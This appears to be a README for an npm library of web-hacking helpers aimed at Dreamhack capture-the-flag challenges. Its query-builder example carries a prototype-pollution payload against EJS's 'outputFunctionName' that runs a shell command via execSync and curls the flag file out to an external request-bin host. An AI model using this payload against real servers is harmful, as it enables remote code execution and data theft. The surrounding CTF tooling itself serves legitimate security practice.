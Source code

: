 ## Webhtools
This is set of useful tool for webhacking. Includes request helper, dreamhack helper etc.

### Installation
```shell
npm install webhtools
```

### Usage
#### Dreamhack Problem Tools
```typescript
import {ProblemHelper} from "webhtools";

async function run() {
  // const ph = await new ProblemHelper(<problemId>).init();
  const ph = await new ProblemHelper(927).init();

  await ph.openVM();
  // exploit
  console.log(ph.getURL());
  await ph.closeVM();
}

run();
```
At first time, you need to enter your dreamhack account info.

#### Request Helper

```typescript
import {RequestHelper, ProblemHelper} from "webhtools";

const ph = await new ProblemHelper(927).init();
await ph.openVM();

const rh = new RequestHelper(ph.getURL());
rh.setContentType("application/json");
rh.setBearerAuth(tokenRes.json.token);
const res = await rh.get("/");
console.log(res.ok);
console.log(res.status);
console.log(res.bytes);
console.log(res.text);
console.log(res.json);
console.log(res.formData);

// in fact, you don't need to close vm. it will close automatically
// await ph.closeVM();
```

#### Query Builder
```js
import { RequestHelper, QueryBuilder } from "webhtools";

const client = new RequestHelper("http://localhost:3000");

const data = {
  key: "__proto__",
  value: {
    "settings": {
      "view options": {
        "outputFunctionName": "x;process.mainModule.require('child_process').execSync(\"curl --data $(cat ./flag) 'https://cghilzr.request.dreamhack.games'\");s"
      }
    }
  }
}
await client.get('/?'+new QueryBuilder(data));
console.log(new QueryBuilder(data))₩
```